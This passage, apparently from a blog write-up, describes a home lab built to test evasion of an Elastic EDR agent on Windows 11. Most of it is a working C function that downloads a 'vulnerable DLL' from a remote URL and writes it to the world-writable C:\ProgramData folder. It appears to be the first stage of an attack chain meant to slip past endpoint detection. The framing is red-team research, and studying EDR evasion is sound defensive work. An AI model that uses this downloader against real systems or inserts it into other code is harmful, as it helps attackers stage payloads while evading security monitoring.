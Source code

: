 Basically I have the following setup:
- 1 x Windows 11 fully updated with Elastic EDR agent (target).
- 1 x Windows 11 fully updated (attacker).
- 1 x Raspberry Pi 4 running Elastic on full prevention mode.

*Side note: I think Elastic do a fantastic job in detecting and preventing threats. The main reason I’m testing against it is the convenience of having a 30-day trial and the challenge to evade detection.*

### Download the DLL & Save to disk
I created a function that will download the vulnerable DLL from a URL and write into disk. I opted to save it in the `C:\ProgramData\` folder, usually is a world writable location:
```C
BOOL GetDllFromUrl(const char* szUrl, const char* savePath) {
    HINTERNET   hInternet       = NULL,
                hInternetFile   = NULL;
    DWORD       dwBytesRead     = NULL;

    // Opening an internet session handle
    hInternet = InternetOpenW(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        return FALSE;
    }

    // Opening a handle to the DLL's URL
    hInternetFile = InternetOpenUrlA(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_RELOAD | INTERNET_FLAG_DONT_CACHE, NULL);
    if (hInternetFile == NULL) {
        InternetCloseHandle(hInternet);
        return FALSE;
    }

    // Open a local file for writing the payload
    HANDLE hFile = CreateFileA(savePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        InternetCloseHandle(hInternet);
        InternetCloseHandle(hInternetFile);
        return FALSE;
    }

    // Reading the DLL bytes and writing to the local file
    BYTE buffer[1024];
    DWORD bytesRead;

    while (InternetReadFile(hInternetFile, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        DWORD bytesWritten;
        WriteFile(hFile, buffer, bytesRead, &bytesWritten, NULL);
    }
    printf("\t[i] File saved to %s\n", savePath);

    CloseHandle(hFile);

    InternetCloseHandle(hInternet);
    InternetCloseHandle(hInternetFile);
    InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);

    return TRUE;
}
```
